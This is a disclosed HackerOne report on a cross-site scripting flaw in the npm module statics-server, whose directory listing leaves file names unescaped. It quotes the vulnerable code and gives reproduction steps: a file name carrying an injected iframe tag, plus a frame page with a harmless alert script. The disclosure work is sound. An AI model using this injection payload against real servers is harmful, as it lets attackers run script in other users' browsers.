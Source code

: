# [statics-server] XSS via injected iframe in file name when statics-server displays directory index in the browser

## Report Details
- **Report ID**: 355458
- **URL**: https://hackerone.com/reports/355458
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-05-21T08:52:25.560Z
- **Disclosed**: 2018-07-14T20:20:07.775Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Team,

I would like to report HTML Injection in statics-server module.
It is possible to inject malicious ```iframe``` tag via filename and execute arbitray JavaScript code.

# Module


**module name:** statics-server
**version:** 0.0.9
**npm page:** https://www.npmjs.com/package/statics-server

### Module Description


npm install statics-server -g

Go to the folder you want to statics-server

Run the server statics-server


### Module Stats

~80-100 downloads/month

# Vulnerability

## Vulnerability Description

```statics-server``` does not implement any HTML escaping when displays directory index in the browser. Variable ```v``` is used in ```<a href>``` element without escaping, which allows to embed HTML ```<iframe>``` tag with ```src``` attribute points to another HTML file in the directory. This file can contain malicious JavaScript code, which will be executed:

```javascript
// ./node_modules/statics-server/index.js, line 18:

    if(fs.lstatSync(staticPath).isDirectory()){
        var files=fs.readdirSync(staticPath);
        var lis='';
        files.forEach((v,i)=>{
            if(fs.lstatSync(path.resolve(staticPath,v)).isDirectory()){
                lis+=`<li><a href="${req.url}${v}/">${v}/</a></li>`;
            }else {
                lis+=`<li><a href="${req.url}${v}">${v}</a></li>`
            }
        });

        (...)

```

## Steps To Reproduce:

Install ```statics-server``` module:

```
$ npm install statics-server
```

- create file with the following filename:

```
"><iframe src="malware_frame.html">

```

- create ```malware_frame.html``` file with following content:

```html
<html>

<head>
    <meta charset="utf8" />
    <title>Frame embeded with malware :P</title>
</head>

<body>
    <p>iframe element with malicious code</p>
    <script>
        alert('Uh oh, I am bad, bad malware!!!')
    </script>
</body>

</html>
```

Run ```statics-server```:

```
$ ./node_modules/statics-server/index.js 
服务器已经启动
访问localhost:8080

```

- in browser, open the following url:

```
http://localhost:8080
```

You see JavaScript from ```malware_frame.html``` executed immediately:

{F299923}


## Patch

```v``` variable in provided code fragment should be escaped before is send back to the browser.


## Supporting Material/References:

- Operating system: Ubuntu 16.04
- Node.js 8.11.1
- npm v. 6.0.1
- Chromium 67.0.3388.0 (Developer Build) (64-bit)

## Wrap up

- I contacted the maintainer to let him know: [N] 
- I opened an issue in the related repository: [N] 


Regards,

Rafal 'bl4de' Janicki

## Impact

An attacker is able to execute malicious JavaScript in context of other user's browser.

## Attachments
- 1.jpg
